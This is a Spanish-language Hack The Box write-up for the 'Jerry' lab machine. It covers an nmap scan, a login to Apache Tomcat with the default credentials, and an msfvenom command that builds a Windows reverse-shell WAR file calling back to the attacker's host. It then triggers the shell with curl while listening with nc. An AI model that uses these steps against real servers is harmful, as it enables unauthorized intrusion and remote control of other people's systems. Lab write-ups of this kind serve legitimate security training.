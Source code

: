 ```yaml
---
title: Jerry - HTB Writeup
date: 2023-09-06 22:00:00 +0800
categories: [Ciberseguridad, Writeups, HTB]
tags: [Writeup, HTB, Penetration Testing, Ethical Hacking, Apache Tomcat, msfvenom, WAR File]
image:
  path: /assets/img/post/jerry/catherine-heath-i4W8OINLI_I-unsplash.jpg
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
---
```


**Jerry** es una máquina de dificultad `Easy` en la plataforma **Hack The Box**

En esta máquina explotaremos una vulnerabilidad en el servicio `Apache` por el puerto `8080`

## **Reconocimiento**

Como siempre utilizaremos la herramienta `nmap` para reportar los puertos abiertos en la máquina víctima:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.95 -oG allPorts
```

![img](/assets/img/post/jerry/feb426c5-b454-4f82-aaa7-5949a66c0751.png)

En la máquina esta abierto solamente el puerto `8080` , si introducimos la `URL` en el buscador junto al puerto, podemos ver lo siguiente:

![img](/assets/img/post/jerry/0701b41c-55c8-4188-ba3f-75cf0c92fbcc.png)

Podemos **loguearnos** en el servicio **Apache Tomcat** con las credenciales predeterminadas `tomcat:s3cret`:

![img](/assets/img/post/jerry/658a5dde-829f-4032-8068-8d70f427a1e0.png)

Vemos que hay una sección donde podemos **subir archivos** `.war` , la cual usaremos para conseguir acceso al sistema:

![img](/assets/img/post/jerry/f13630bf-58f1-4988-bdea-0e9e224c5fc1.png)

### Web Aplication Resource Files

> Un archivo `WAR`, es un formato de archivo utilizado para **empaquetar y distribuir aplicaciones web** en la plataforma **Java**. Este contiene todos los recursos necesarios para ejecutar una aplicación web en un solo archivo comprimido.

## Explotación

Usaremos la herramienta `msfvenom` para crear una `reverse shell` en windows y poder acceder mediante `nc`:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.15 LPORT=443 -f war > rev_shell.war
```

![img](/assets/img/post/jerry/6f231e1c-e4ea-4e1c-a7ea-c9341910e71c.png)

Además deberemos saber el nombre del archivo `.jsp` para activarla con la herramienta `curl` , por lo tanto usaremos `jar` para enumerar el contenido del archivo `.war`:

![img](/assets/img/post/jerry/bc65ae69-5fe0-4c28-a763-84e8280629c9.png)

Ahora subiremos la reverse shell, mediante la web utilizando `curl` , nos pondremos en escucha en otra terminal mediante `nc`:

```bash
curl http://10.10.10.95:8000/rev_shell/mdeonxmbgy.jsp
```

![img](/assets/img/post/jerry/7bd0c1bc-d7de-4a35-b8df-496fc4bce938.png)

De esta manera ya tendremos acceso completo a la máquina víctima, en donde podremos encontrar las flags en el `Desktop` del usuario `administrator`

*Espero que os haya gustado y servido, cualquier comentario es de mucha ayuda. Adios!*
